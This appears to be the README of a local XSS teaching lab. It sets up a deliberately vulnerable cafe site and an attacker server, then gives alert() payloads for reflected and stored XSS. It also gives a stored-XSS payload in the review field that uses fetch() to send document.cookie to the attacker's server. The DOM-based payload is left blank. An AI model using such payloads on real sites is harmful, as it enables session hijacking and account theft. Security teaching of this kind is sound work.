










# ReadMe

## Setup

Steps to setup the environment.

> [!WARNING]
> Prerequisites: Download XAMPP  

### Setup MySQL (Running on port 8080)

- Start the Database Server on the XAMPP

- Go to `MySQL` 
  ```bash
  http://localhost:8080/phpmyadmin/
  ```
- Create the database
	- Database name: `db_745`
	- Table name: `reviews`
	- Fields: `Users`, `Comments`, `id`
	  

### Setup Cafe Server

- Put `cafe` files in the following structure
	```
	xampp/htdocs/cafe/
	│── assets/				# images
	│── admin.php			# admin login page
	│── db.php				# Database connection file  
	│── index.php			# Main café homepage  
	│── recommendation.php	# DOM-Based XSS demo (dynamic content)  
	│── review.php			# Stored XSS demo (user reviews)  
	│── search.php			# Reflected XSS demo (search bar)  
	└── style.css			# Styling for the website  
	```
- Start the Web Server

- Go to the `cafe` website
  ```bash
  http://localhost:8080/cafe
  ```

### Setup Attacker's Server (Running on port 8000)

- Put attack file in the following structure
	```
	xampp/htdocs/attacker/
	│── log.txt				# stolen information (cookies)
	└── style.css			# stealer code
	```

- Run the attacker server using php
	- Go to the attacker's working directory `xampp/htdocs/attacker/`
	- Open a powershell from here and run the following command
		```bash
 		C:/xampp/php/php -S 127.0.0.1:8000
		```
## Attack

Steps to attack the vulnerable websites

### **Reflected XSS**

The `search` page is vulnerable to `Refected XSS`.

Type in the following command to the search bar to execute an alert. The alert can  be replaced with more dangerous command.

```bash
<script>alert('XSS Attack!')</script>
```
  

Command got executed.

  


### **Stored XSS**

The `Review` page is vulnerable to `Stored XSS`.

Type in the following information to the respective fields to trigger an alert.
	- Username: Attacker
	- Review: <script>alert('Hacked!')</script>

```bash
<script>alert('Hacked!')</script>
```

  

Command got executed.

  

### **DOM-based XSS**

The `Recommendations` page is vulnerable to `DOM-based XSS`.

Type the following information to the searchbox to trigger an alert.

```bash

```
  

Command got executed.

  

## Advanced Attack

> [!WARNING]
> For this attack to succeed, the attacker php server needs to be running.

In the previous examples, the just execute the alert.

In this section, we'll try to steal cookies (including user login cookie) from the `Review` page.

As an attacker, type the following input to the respective fields in the `Review` page.
	- Username: Attacker
	- Review: `<script> fetch('http://localhost:8000/steal.php?cookie=' + document.cookie); </script>`

  

Every time a user use this page, the cookies will be sent to the attacker's server in file `log.txt`

  

The cookies are stolen.

  


